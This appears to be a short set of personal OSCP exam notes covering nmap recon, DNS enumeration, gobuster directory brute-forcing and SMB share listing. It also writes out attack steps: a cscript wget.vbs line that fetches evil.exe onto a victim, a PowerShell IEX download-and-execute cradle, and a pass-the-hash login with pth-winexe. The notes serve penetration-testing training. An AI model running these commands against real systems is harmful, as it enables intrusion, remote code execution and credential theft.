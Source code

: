 # OSCP Notes

------------------------------------------------------------

**Recon:**

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**

host -t ns/mx <domain name.com>

**Forward DNS lookup:**

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

**Reverse DNS lookup:**

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

**DNS zone Transfer:**

host -l <DOMAIN NAME> <NAME SERVER>


**SMTP User Enumeration:**

See /opt/scripts for vrfy.py

**Directory brute-force:**

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


**File transfer methods:**

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)


**SMB**

smbclient -L <IP> # to list shares

smbclient //x.x.x.x/sharename # to log into the share

smbmap -H <IP> # to list shares and display read/write permissions.

**PASS The HASH**

1 .Take the NTLM hash and export it as:
 export SMBHASH=<<<<<<<<<<<<<<NTLM HASH HERE>>>>>>>>>>>>>>>>>>

2. run the command:
pth-winexe -U <USER>% //x.x.x.x cmd
    
    




